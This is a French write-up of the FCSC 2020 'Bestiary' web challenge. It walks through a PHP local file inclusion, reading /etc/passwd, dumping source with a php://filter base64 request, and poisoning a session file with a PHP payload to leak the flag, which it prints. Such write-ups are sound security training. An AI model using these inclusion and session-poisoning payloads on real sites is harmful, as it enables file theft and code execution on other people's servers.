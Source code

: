 # Bestiary

Auteur: Ewaël

**Bestiary** est un des challenges web à 100 points du FCSC 2020 et dont voici l'énoncé:

![Bestiary](bestiary.png)

Le lien menant sur une page avec un bestiaire qui regroupait des informations sur la créature choisie.

![Index.php](index.png)

La première chose que je remarque est la manière dont la créature choisie est envoyée dans la requête: par le paramètre `monster` dans l'URL. Je teste alors directement `monster=flag` et je vois que rien ne s'affiche là où `monster=test` renvoie l'erreur suivante:

![monster=test](test.png)

C'est ainsi que je suis parti sur ma première piste: une simple LFI. En effet, `
Warning: include(/usr/local/lib/php/test): failed to open stream: No such file or directory in /var/www/html/index.php on line 33` me fait clairement penser que le serveur se contente d'afficher la page demandée, et j'imagine que si le mot *flag* est filtré, on peut quand même trouver d'autres informations intéressantes. Je commence par vérifier ma théorie en allant chercher des fichiers généralement croustillants, et effectivement, ça fonctionne:

![/etc/passwd](passwd.png)

Le problème, c'est que je n'en tire pas grand chose. Pareil du côté des hosts, fausse piste. En regardant les possibilités qu'offre la LFI, je tombe sur la bonne piste. En effet, la faille à exploiter est une application spécifique de LFI: l'utilisation des filtres php. Je comprends qu'il est possible de lire le code php de la page `index.php` grâce à cette page:

[http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php](http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php/)

J'essaie donc de passer par le base 64 en envoyant `/index.php?monster=php://filter/read=convert.base64-encode/resource=index.php` et ça fonctionne, je décode la chaine renvoyée et je récupère mon joli *index.php*:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

Je réalise tout de suite qu'effectivement le mot "flag" était bien filtré, j'ai d'ailleurs d'abord foncé tête baissée sur ce problème avant de réaliser que la solution n'était pas là. En effet ce qui m'intéresse se situe dans ces lignes:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
```

Après recherches sur ce `session_save_path` je comprends qu'on peut accéder à un fichier potentiellement intéressant dans `sessions/sess_b112ccb116944fa18da40b335829e4ae`, "b112ccb116944fa18da40b335829e4ae" étant mon cookie *PHPSESSID*. On trouve sur cette page simplement la chaine contenant notre dernière requête, dans mon cas: `monster|s:4:"test";`.

Ainsi j'ouvre un autre onglet pour envoyer la requête avec le payload, et je garde cet onglet pour rafraîchir la page une fois le payload envoyé, afin de voir le résultat. J'envoie donc d'abord `/index.php?monster=<?php%20echo%20file_get_contents("flag.php");%20?>` afin d'afficher le flag, puis je retourne sur l'onget `/index.php?monster=sessions/...` puis dans le code source, et surprise, voilà le flag:

![flag](flag.png)

`FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`
